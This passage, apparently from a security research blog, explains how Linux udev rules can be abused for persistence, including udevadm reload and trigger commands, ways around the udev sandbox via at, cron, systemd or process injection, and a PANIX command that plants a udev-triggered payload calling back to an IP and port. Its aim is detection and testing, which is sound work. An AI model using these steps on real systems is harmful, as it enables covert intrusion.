 To leverage this method for persistence, root privileges are required. Once a rule file is created, the rules need to be reloaded.

```
sudo udevadm control --reload-rules
```

To test the rule, either perform the action specified in the rule file or use the [udevadm](https://www.man7.org/linux/man-pages/man8/udevadm.8.html) trigger utility.

```
sudo udevadm trigger -v
```

Additionally, these drivers can be monitored using `udevadm`, by running:

```
udevadm monitor --environment
```

Eder’s [blog](https://ch4ik0.github.io/en/posts/leveraging-Linux-udev-for-persistence/) titled “Leveraging Linux udev for persistence” is a very good read for more information on this topic. This technique has several limitations, making it more difficult to leverage the persistence mechanism.

* Udev rules are limited to short foreground tasks due to potential blocking of subsequent events.
* They cannot execute programs accessing networks or filesystems, enforced by `systemd-udevd.service`'s sandbox.
* Long-running processes are terminated after event handling.

Despite these restrictions, bypasses include creating detached processes outside udev rules for executing implants, such as:

* Leveraging `at`/`cron`/`systemd` for independent scheduling.
* Injecting code into existing processes.

Although persistence would be set up through a different technique than udev, udev would still grant a persistence mechanism for the `at`/`cron`/`systemd` persistence mechanism. MITRE does not have a technique dedicated to this mechanism — the most logical technique to add this to would be [T1546](https://attack.mitre.org/techniques/T1546/).

Researchers from AON recently discovered a malware called "sedexp" that achieves persistence using Udev rules - a technique rarely seen in the wild - so be sure to check out [their research article](https://www.aon.com/en/insights/cyber-labs/unveiling-sedexp).

## Persistence through T1546 - udev

PANIX allows you to test all three techniques by leveraging `--at`, `--cron` and `--systemd`, respectively. Or go ahead and test it manually. We can set up udev persistence through `at`, by running the following command:

```
> sudo ./panix.sh --udev --default --ip 192.168.1.1 --port 2009 --at
```

To trigger the payload, you can either run `sudo udevadm trigger` or reboot the system. Let’s analyze the events in Discover.

![Events generated as a result of Udev At persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image16.png "Events generated as a result of Udev At persistence establishment")
